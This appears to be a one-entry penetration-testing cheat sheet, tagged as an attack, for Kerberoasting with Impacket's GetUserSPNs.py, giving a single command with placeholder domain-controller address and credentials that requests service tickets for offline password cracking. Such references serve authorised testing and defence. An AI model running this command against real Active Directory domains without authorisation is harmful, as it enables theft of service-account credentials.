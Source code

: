 # GetUSERSPN (imp)

% impacket-kerberos, windows, kerberos, 88

## kerberoasting
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
```
